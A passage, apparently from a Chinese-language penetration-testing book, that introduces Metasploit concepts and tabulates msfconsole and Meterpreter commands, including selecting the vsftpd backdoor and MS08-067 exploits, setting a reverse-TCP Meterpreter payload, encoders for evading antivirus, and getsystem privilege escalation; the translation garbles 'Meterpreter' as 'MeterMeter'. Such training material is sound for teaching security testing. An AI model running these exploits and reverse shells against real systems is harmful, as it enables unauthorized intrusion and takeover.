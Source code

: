 *   **利用**：这是一段代码，执行时将利用目标的漏洞进行攻击。
*   **有效载荷**：成功利用后在目标上运行的一段代码。它定义了我们要在目标系统上执行的操作。
*   **辅助**：这些模块提供扫描、模糊、嗅探等附加功能。
*   **编码器**：编码器用于混淆模块，以避免被防病毒或防火墙等保护机制检测到。
*   **MeterMeter**：MeterMeter 是一种使用内存 DLL 注入级的有效负载。它提供了在目标位置执行的各种功能，这使得它成为一种流行的选择。

现在，让我们回顾一下我们将在本章中使用的 Metasploit 的一些基本命令。让我们看看他们应该做什么：

| **命令** | **用法** | **示例** |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块的步骤 | `msf>use exploit/unix/ftp/vsftpd_234_backdoor msf>use auxiliary/scanner/portscan/tcp` |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | `msf>show payloads msf> show options` |
| `set [options/payload]` | 为特定对象设置值的步骤 | `msf>set payload windows/meterpreter/reverse_tcp msf>set LHOST 192.168.10.118 msf> set RHOST 192.168.10.112 msf> set LPORT 4444 msf> set RPORT 8080` |
| `setg [options/payload]` | 全局设置特定对象的值，使其在打开模块时不会更改 | `msf>setg RHOST 192.168.10.112` |
| `run` | 设置所有必需选项后启动辅助模块 | `msf>run` |
| `exploit` | 利用 | `msf>exploit` |
| `back` | 取消选择模块并向后移动的步骤 | `msf(ms08_067_netapi)>back msf>` |
| `Info` | 列出与特定漏洞/模块/辅助工具相关的信息 | `msf>info exploit/windows/smb/ms08_067_netapi msf(ms08_067_netapi)>info` |
| `Search` | 查找特定模块的步骤 | `msf>search hfs` |
| `check` | 检查特定目标是否易受攻击 | `msf>check` |
| `Sessions` | 列出可用的会话 | `msf>sessions [session number]` |

我们也来看看基本的 MeterMeter 命令：

| **仪表指令** | **用法** | **示例** |
| `sysinfo` | 列出受损主机的系统信息 | `meterpreter>sysinfo` |
| `ifconfig` | 列出受损主机上的网络接口 | `meterpreter>ifconfig meterpreter>ipconfig (Windows)` |
| `arp` | 连接到目标的主机的 IP 和 MAC 地址列表 | `meterpreter>arp` |
| `background` | 将活动会话发送到后台 | `meterpreter>background` |
| `shell` | 在目标上放置 cmd shell | `meterpreter>shell` |
| `getuid` | 获取当前用户的详细信息 | `meterpreter>getuid` |
| `getsystem` | 升级权限并获得系统访问权限 | `meterpreter>getsystem` |
| `getpid` | 获取 MeterMeter 访问的进程 ID | `meterpreter>getpid` |
| `ps` | 列出目标上运行的所有进程 | `meterpreter>ps` |

既然我们现在已经回顾了 Metasploit 命令的基础知识，那么让我们在下一节中看看使用 Metasploit 相对于传统工具和脚本的好处。

如果您是第一次使用 Metasploit，请参阅[https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/) 了解有关基本命令的更多信息。
